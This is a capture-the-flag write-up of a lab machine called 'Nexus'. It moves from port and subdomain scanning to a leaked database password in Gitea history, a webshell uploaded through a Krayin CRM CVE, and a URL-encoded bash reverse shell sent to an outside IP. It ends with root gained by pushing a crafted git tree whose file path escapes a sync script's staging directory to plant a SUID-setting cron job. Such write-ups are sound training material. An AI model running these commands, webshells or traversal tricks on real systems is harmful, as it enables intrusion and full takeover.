



## Reconnaissance

We will start identifying the open ports.
```bash
~/workbench/Nexus 
➜ sudo nmap -p- -sS --min-rate 5000 10.129.92.104 -oG content/allPorts
[sudo] password for zodiak: 
Starting Nmap 7.993 ( https://nmap.org ) at 2026-11-02 13:35 +0100
Nmap scan report for 10.129.92.104
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.69 seconds

~/workbench/Nexus took 15s 
➜ sudo nmap -p- -sVC --min-rate 5000 10.129.92.104 -oN content/targeted
Starting Nmap 7.993 ( https://nmap.org ) at 2026-11-02 13:36 +0100
Nmap scan report for 10.129.92.104
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.12 seconds
```

With this we have identified a host that we will add on `/etc/hosts`.
```bash
~/workbench/Nexus took 21s 
➜ echo '10.129.92.104 nexus.htb' | sudo tee -a /etc/hosts              
10.129.92.104 nexus.htb
```

Inspecting on the webpage we were able to find a couple of emails that we will store in case that they are useful in the future.
```bash
➜ curl http://nexus.htb -s | grep 'mailto:'
                <a href="mailto:careers@nexus.htb" class="apply-email">Apply at careers@nexus.htb</a>
                <p class="hiring-manager">Questions? Reach out to our hiring manager: <a href="mailto:j.matthew@nexus.htb">j.matthew@nexus.htb</a></p>
```

With `ffuf` we checked the subdomains and we found 2 interesting subdomains.
```bash
➜ ffuf -u http://nexus.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.nexus.htb" -fw 4 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       git-20260926-8d65e037
________________________________________________

 :: Method           : GET
 :: URL              : http://nexus.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.nexus.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 4
________________________________________________

git                     [Status: 200, Size: 14472, Words: 1195, Lines: 242, Duration: 49ms]
billing                 [Status: 302, Size: 390, Words: 60, Lines: 12, Duration: 105ms]
:: Progress: [100000/100000] :: Job [1/1] :: 809 req/sec :: Duration: [0:02:02] :: Errors: 0 ::
```

After inspecting the subdomains we gather the following information:
- `git.nexus.htb` is a `Gitea` page to store the code of the applications.
- `billing.nexus.htb` is a `Krayin` server (CMS).

On the `Gitea` page we are able to see the code without authentication which is usefull as there is a file stored there called `.env` which contains Environment varables and credentials. Checking the file we are not able to find any password but if we check the history of changes of that file we are able to see that there was a change were they deleted a variable value with key `DB_PASSWORD`.


With this password and the user that we gathered befre we will be able to login on `billing.nexus.htb`.

After navigating on the page we are able to see that the user `k.matthew@nexus.htb` has the role `Administrator` attached so we have admin permissions. Also we saw that the version of this CRM is `2.2.0`.

## Explotation

After a quick search we have found that this version is vulnerable to [CVE-2026-38526](https://github.com/TREXNEGRO/Security-Advisories/blob/main/CVE-2026-38526/poc.md).

We went to the email side and tried to upload the file on the email draft.


This upload request was captured by burp and we have modified a couple of parameters to match them with the POC mentioned above.


As you can see this reported us a path as a response where our WebShell is stored.
```bash
~/workbench/Nexus 
➜ curl 'http://billing.nexus.htb/storage/tinymce/cf27a74614bbd006782032172d71a110.php?cmd=id'             
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege escalation

Now we'll stablish the reverse shell but URL-encoding the bash shell `bash -c 'bash -i >& /dev/tcp/10.10.16.85/1234 0>&1`.

*Shell 1*
```bash
~/workbench/Nexus 
➜ curl "http://billing.nexus.htb/storage/tinymce/cf27a74614bbd006782032172d71a110.php?cmd=bash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.10.16.85%2f1234%200%3e%261'"
```

*Shell 2*
```bash
~/workbench/Nexus took 1m24s 
➜ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.129.92.143 44756
bash: cannot set terminal process group (1461): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nexus:~/krayin/storage/app/public/tinymce$
```

Let's sanitize this shell
```bash
www-data@nexus:~/krayin/storage/app/public/tinymce$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@nexus:~/krayin/storage/app/public/tinymce$ ^Z
zsh: suspended  nc -lvnp 1234
~/workbench/Nexus 
✗ stty -raw echo;fg
reset xterm
www-data@nexus:~/krayin/storage/app/public/tinymce$ export TERM=xterm
export TERM=xterm
www-data@nexus:~/krayin/storage/app/public/tinymce$ export BASH=bash
export BASH=bash
```

We have identified the a couple of users.
```bash
www-data@nexus:~/krayin/storage/app/public/tinymce$ cat /etc/passwd | grep -E 'sh$'
cat /etc/passwd | grep -E 'sh$'
root:x:0:0:root:/root:/bin/bash
jones:x:1000:1000:,,,:/home/jones:/bin/bash
git:x:111:112:Git Version Control,,,:/home/git:/bin/bash
```

### Jones

To gain SSH access to jones user, we just need to check the `.env` file on `/var/www/krayin` where we will be able to see a password.
```bash
www-data@nexus:~/krayin$ cat .env | grep PASS
cat .env | grep PASS
DB_PASSWORD=y27xb3ha!!74GbR
REDIS_PASSWORD=null
MAIL_PASSWORD=null
IMAP_PASSWORD=your_password
```

```bash
sshpass -p 'y27xb3ha!!74GbR' ssh jones@10.129.92.143
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-111-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Nov  2 08:32:07 PM UTC 2026

  System load:           0.0
  Usage of /:            66.8% of 6.48GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.129.92.143
  IPv6 address for eth0: dead:beef::a0de:adff:fe97:a2d0


Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```
### Root

Checking the system processes we are able to see that there is a timer running a sync of the repos published on gitea with a python script.
```bash
jones@nexus:~$ systemctl list-timers
NEXT                            LEFT LAST                              PASSED UNIT                           ACTIVATES                       
Mon 2026-11-02 21:22:33 UTC      46s Mon 2026-11-02 21:21:33 UTC      13s ago gitea-template-sync.timer      gitea-template-sync.service
Mon 2026-11-02 21:28:05 UTC     6min Mon 2026-11-02 20:56:02 UTC    25min ago fwupd-refresh.timer            fwupd-refresh.service
Mon 2026-11-02 21:30:00 UTC     8min Mon 2026-11-02 21:20:02 UTC 1min 43s ago sysstat-collect.timer          sysstat-collect.service
Mon 2026-11-02 21:39:00 UTC    17min Mon 2026-11-02 21:09:02 UTC    12min ago phpsessionclean.timer          phpsessionclean.service
Mon 2026-11-02 21:53:09 UTC    31min Thu 2026-04-23 18:33:27 UTC            - man-db.timer                   man-db.service
Tue 2026-11-03 00:00:00 UTC 2h 38min Mon 2026-11-02 19:05:14 UTC 2h 16min ago dpkg-db-backup.timer           dpkg-db-backup.service
Tue 2026-11-03 00:00:00 UTC 2h 38min Mon 2026-11-02 19:05:14 UTC 2h 16min ago logrotate.timer                logrotate.service
Tue 2026-11-03 00:07:00 UTC 2h 45min -                                      - sysstat-summary.timer          sysstat-summary.service
Tue 2026-11-03 00:16:53 UTC 2h 55min Mon 2026-11-02 20:01:40 UTC 1h 20min ago motd-news.timer                motd-news.service
Tue 2026-11-03 03:03:52 UTC 5h 42min Mon 2025-03-31 16:38:00 UTC            - apt-daily.timer                apt-daily.service
Tue 2026-11-03 06:16:54 UTC       8h Mon 2026-11-02 19:47:32 UTC 1h 34min ago apt-daily-upgrade.timer        apt-daily-upgrade.service
Tue 2026-11-03 19:10:11 UTC      21h Mon 2026-11-02 19:10:11 UTC 2h 11min ago update-notifier-download.timer update-notifier-download.service
Tue 2026-11-03 19:20:11 UTC      21h Mon 2026-11-02 19:20:11 UTC  2h 1min ago systemd-tmpfiles-clean.timer   systemd-tmpfiles-clean.service
Sat 2026-11-07 03:29:52 UTC   4 days Mon 2026-03-23 10:50:29 UTC            - update-notifier-motd.timer     update-notifier-motd.service
Sun 2026-11-08 03:10:07 UTC   5 days Mon 2026-11-02 19:06:01 UTC 2h 15min ago e2scrub_all.timer              e2scrub_all.service
Mon 2026-11-09 01:35:04 UTC   6 days Mon 2026-11-02 20:42:02 UTC    39min ago fstrim.timer                   fstrim.service

16 timers listed.
Pass --all to see loaded but inactive timers, too.
jones@nexus:~$ systemctl status gitea-template-sync.service
○ gitea-template-sync.service - Sync Gitea templates
     Loaded: loaded (/etc/systemd/system/gitea-template-sync.service; static)
     Active: inactive (dead) since Mon 2026-11-02 21:21:33 UTC; 38s ago
TriggeredBy: ● gitea-template-sync.timer
    Process: 2871 ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py (code=exited, status=0/SUCCESS)
   Main PID: 2871 (code=exited, status=0/SUCCESS)
        CPU: 181ms
jones@nexus:~$ cat /etc/gitea/template-sync.py
import os
import sys
import json
import subprocess
import time
import urllib.request

GITEA_URL = "http://localhost:3000"
REPO_ROOT = "/var/lib/gitea/data/gitea-repositories"
STAGING_DIR = "/home/git/template-staging"
LOG_FILE = "/var/log/template-sync.log"

def log(msg):
    ts = time.strftime("%Y-%m-%d %H:%M:%S")
    line = "[%s] %s" % (ts, msg)
    print(line, flush=True)
    try:
        os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
        with open(LOG_FILE, 'a') as f:
            f.write(line + '\n')
    except:
        pass

def load_config():
    config = {}
    for path in ['/etc/gitea/template-sync.conf', '/opt/forge/app/.env']:
        try:
            with open(path) as f:
                for line in f:
                    line = line.strip()
                    if line and not line.startswith('#') and '=' in line:
                        k, v = line.split('=', 1)
                        config[k.strip()] = v.strip()
        except:
            pass
    return config

def get_token():
    cfg = load_config()
    return cfg.get('GITEA_API_TOKEN')

def get_template_repos(token):
    url = "%s/api/v1/repos/search?limit=50" % GITEA_URL
    req = urllib.request.Request(url, headers={
        'Authorization': 'token %s' % token
    })
    try:
        with urllib.request.urlopen(req) as resp:
            data = json.loads(resp.read())
            repos = data.get('data', data) if isinstance(data, dict) else data
            return [r for r in repos if r.get('template', False)]
    except Exception as e:
        log("API error: %s" % e)
        return []

def sync_template(repo_info):
    owner = repo_info['owner']['login']
    name = repo_info['name'].lower()
    bare_path = os.path.join(REPO_ROOT, owner, "%s.git" % name)
    stage_path = os.path.join(STAGING_DIR, owner, name)

    if not os.path.isdir(bare_path):
        log("  repo not found: %s" % bare_path)
        return

    # Read tree entries from the bare repository
    try:
        GIT = ['git', '-c', 'safe.directory=*']
        result = subprocess.run(
            GIT + ['ls-tree', '-r', 'HEAD'],
            cwd=bare_path,
            capture_output=True, text=True, timeout=10
        )
        if result.returncode != 0:
            log("  ls-tree failed: %s" % result.stderr.strip())
            return
    except Exception as e:
        log("  ls-tree error: %s" % e)
        return

    entries = []
    for line in result.stdout.strip().split('\n'):
        if not line:
            continue
        parts = line.split('\t', 1)
        if len(parts) != 2:
            continue
        meta, filepath = parts
        mode, objtype, objhash = meta.split()
        if objtype == 'blob':
            entries.append((mode, objhash, filepath))

    if not entries:
        log("  no files in template")
        return

    # Extract files to staging directory
    for mode, objhash, filepath in entries:
        target = os.path.join(stage_path, filepath)
        target_dir = os.path.dirname(target)

        try:
            os.makedirs(target_dir, exist_ok=True)
            GIT = ['git', '-c', 'safe.directory=*']
            cat_result = subprocess.run(
                GIT + ['cat-file', 'blob', objhash],
                cwd=bare_path,
                capture_output=True, timeout=10
            )
            if cat_result.returncode != 0:
                continue

            with open(target, 'wb') as f:
                f.write(cat_result.stdout)

            if mode == '100755':
                os.chmod(target, 0o755)
            else:
                os.chmod(target, 0o644)

            log("  synced: %s" % filepath)
        except Exception as e:
            log("  error syncing %s: %s" % (filepath, e))

def main():
    log("Template sync starting")

    token = get_token()
    if not token:
        log("No API token found")
        sys.exit(1)

    templates = get_template_repos(token)
    log("Found %d template repo(s)" % len(templates))

    for repo in templates:
        name = repo['full_name']
        log("Syncing template: %s" % name)
        sync_template(repo)

    log("Template sync complete")

if __name__ == '__main__':
    main()
jones@nexus:~$ 
```

Checking this script we see that it is vulnerable as the directory where it is writting is being specified with a `.join()` function without sanitization.

Before carry on with this privilege escalation, we need to understand how Github works internally with their objects.

GitHub has 4 different objects
| Type | What it represents| 
| --- | ---|
| blob | The content of a file (just the bytes, no name or premission) |
| tree | A directory: a list of entries (name of file, mode with permissions, type, hash) |
| commit | points to a `tree` + metadata (author, parent, message) |
| tag | A labeled reference to another object (annotated tag) |

The `blob` is just the content file and we can get it using `git hash-object`.
```bash
jones@nexus:/tmp/test-repo$ echo -n '* * * * * root chmod +s /usr/bin/bash' | git hash-object -w --stdin
542f2d9780aef45f0a516904effcc6d68ef64115
```
Github uses this hash transformed on 20 bytes so we need to take it and do the same (This will be important for the `tree`)
```bash
jones@nexus:/tmp/test-repo$ echo -ne '542f2d9780aef45f0a516904effcc6d68ef64115' | xxd -r -p | wc -c 
20
```

The `tree` is the directory of this file, this is something important in this case as the sync program uses them on the `.join()` function which is the vulnerable path.

Here we will set up the mode which indicates the permissions and if it is a file, symlink, subdirectory or submodule. The first 3 numbers means what type is and the last 3 are the permissinos of the object (like on `chmod`).
| mode | definition | 
| --- | --- |
| 100XXX | Regular file |
| 120XXX | symlink |
| 040XXX | subdirectory (another tree) | 
| 160XXX | submodule (gitlink) |

Also we will specify the file and it's content, for this we will need the 20 bytes that we have generated before.

The structure of the tree commits usually is `<mode> <file>\0<blob on 20 bytes>` and this is what we will generate with `echo -ne` because with `-e` option it considers the `\0` as null byte

With the command `git hash-object -t tree` we will get the commit of the tree specifically 
```bash
jones@nexus:/tmp/test-repo$ HASH=$(echo -n '542f2d9780aef45f0a516904effcc6d68ef64115' | xxd -r -p)
jones@nexus:/tmp/test-repo$ echo -ne "100644 /etc/cron.d/root_shell\0${HASH}" | git hash-object -w -t tree --literally --stdin
2d11c7adb738ef8d2f6aeec656332d3418e85549
```

As you can see we have specified a cronjob to add root SUID to the bash shell and on the tree hash we have specified that it is a regular file with `644` permisions.

Now we just need to commit this tree
```bash
jones@nexus:/tmp/test-repo$ git config user.email "j.matthews@nexus.htb"
jones@nexus:/tmp/test-repo$ git config user.name "jones"
jones@nexus:/tmp/test-repo$ git commit-tree 2d11c7adb738ef8d2f6aeec656332d3418e85549 -m "hacking attempt"
5d2370caecec976546b693cb1dadceaf6593e863
```

Update the main reference branch to the tree commit that we did.
```bash
jones@nexus:/tmp/test-repo$ git update-ref refs/heads/main 5d2370caecec976546b693cb1dadceaf6593e863
jones@nexus:/tmp/test-repo$ git status
On branch main
Your branch is based on 'origin/main', but the upstream is gone.
  (use "git branch --unset-upstream" to fixup)

Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	deleted:    /etc/cron.d/root_shell
```

As you can see we didn't created any file at any moment but github thinks that it existed at any time.

```bash
jones@nexus:/tmp/test-repo$ git ls-tree -r HEAD
100644 blob 542f2d9780aef45f0a516904effcc6d68ef64115	/etc/cron.d/root_shell
jones@nexus:/tmp/test-repo$ git add .
jones@nexus:/tmp/test-repo$ git push origin main
Username for 'http://localhost:3000': jones
Password for 'http://jones@localhost:3000': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 2 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 258 bytes | 258.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://localhost:3000/jones/test-repo.git
 * [new branch]      main -> main
```

Afer this push we only need to check the logs of the process (stored on `/var/log/`), if the file is being created on `/etc/cron.d/` and if the `bash` binary receives the SUID root permissions.
```bash
jones@nexus:/tmp/test-repo$ tail -f /var/log/template-sync.log 
[2026-11-03 19:29:18] Template sync starting
[2026-11-03 19:29:18] Found 1 template repo(s)
[2026-11-03 19:29:18] Syncing template: jones/test-repo
[2026-11-03 19:29:18]   ls-tree failed: fatal: Not a valid object name HEAD
[2026-11-03 19:29:18] Template sync complete
[2026-11-03 19:30:18] Template sync starting
[2026-11-03 19:30:18] Found 1 template repo(s)
[2026-11-03 19:30:18] Syncing template: jones/test-repo
[2026-11-03 19:30:18]   ls-tree failed: fatal: Not a valid object name HEAD
[2026-11-03 19:30:18] Template sync complete
[2026-11-03 19:31:18] Template sync starting
[2026-11-03 19:31:18] Found 1 template repo(s)
[2026-11-03 19:31:18] Syncing template: jones/test-repo
[2026-11-03 19:31:18]   synced: /etc/cron.d/root_shell
[2026-11-03 19:31:18] Template sync complete
jones@nexus:/tmp/test-repo$ ls /etc/cron.d
e2scrub_all  php  root_shell  sysstat
jones@nexus:/tmp/test-repo$ ls -lah $(which bash)
-rwsr-sr-x 1 root root 1.4M Mar 31  2024 /usr/bin/bash
```

now just run the command `bash -p` to run it on privileged mode and read the `root.txt` file.
```bash
jones@nexus:/tmp/test-repo$ bash -p
bash-5.2# id
uid=1000(jones) gid=1000(jones) euid=0(root) egid=0(root) groups=0(root),100(users),1000(jones)
bash-5.2# cat /root/root.txt 
c6246cd1a40989b63a52fd49cba90b47
```
